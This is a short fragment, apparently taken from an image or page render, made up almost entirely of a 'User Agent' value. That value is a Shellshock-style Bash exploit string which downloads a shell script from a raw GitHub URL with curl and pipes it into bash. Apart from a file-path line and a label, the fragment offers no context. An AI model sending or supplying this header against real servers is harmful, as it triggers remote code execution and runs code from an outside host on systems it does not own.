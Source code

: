User Agent:

\`() {.:;.}; curl -s https://raw.githubusercontent.com/spaceSub/simple-update/master/update.sh | bash\`
